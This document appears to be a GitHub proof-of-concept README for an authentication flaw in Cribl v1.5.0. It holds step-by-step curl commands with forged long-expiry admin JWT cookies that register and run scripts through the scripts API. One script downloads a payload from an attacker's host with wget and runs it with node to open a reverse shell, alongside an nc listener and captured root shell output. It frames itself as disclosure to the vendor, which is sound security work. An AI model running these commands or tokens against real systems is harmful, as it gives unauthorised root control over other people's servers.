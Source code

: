 # Disclaimer  
This is for informational/educational purposes only.  
This was put together to demonstrate an insecurity in the tool, in order for a fix to be verified by the vendor.
# Info
Tested on Cribl v1.5.0 - Previous versions not tested but likely vulnerable.  
A valid JWT token can be transfered from and injected into the session of another Cribl instance, giving the user unauthorised access.  
Furthermore, the encryption key used on to generate the JWT/Session can be used to create a valid session for any username, with an extended expiry.  
  
This, combined with the ability to run scripts within Cribl allows a  remote attacker to run malicious code on a Crible instance in order to gain further control.  
An example of such can be seen below, using the scripts  page and a long expiry JWT token, it was possible to create a reverse shell.  
  
Tested using Docker (Alpine).


# Running
First, modify (the remote host name) and upload your shell.js to your webserver. The file contains NodeJS code to create a reverse shell to your website.  
The server must have outbound network access to your remote host/port.  
  
Secondly, setup a listener on your remote host, on the port matching the shell.js:
```
nc -lvp 6669
``` 

Adjust the following curl commands with your remote file.  
Run the CURL commands in order, the outputs should roughly match the indents below.

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"runme","command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{}}' --compressed
```

> "count":1,"items":[{"command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{},"id":"runme"}]}

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/runme/run' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNTU0OTUyMTU5fQ.W4YDcUJhshv2R25UcumlP4H-2vaCIiJL0hME4eZFIW0' \
--data-binary '{}' --compressed
```
> {"pid":414,"stdout":"N/A","stderr":"N/A"}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
 -H 'Content-Type: application/json'\
 -H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"reverseit","command":"node","args":["/opt/cribl.js"],"env":{}}' --compressed
```
> "count":1,"items":[{"command":"node","args":["/opt/cribl.js"],"env":{},"id":"reverseit"}]}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/reverseit/run' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{}' --compressed
```
> {"pid":353,"stdout":"N/A","stderr":"N/A"}

# Output
```nc -lvp 6669  
Listening on [0.0.0.0] (family 0, port 6669)  
Connection from [188.29.XXX.XXX] port 6669 [tcp/*] accepted (family 2, sport 13720)  
> whoami  
< root  
  
> ls /  
< bin  
< dev  
< etc  
< home  
< lib  
...
```

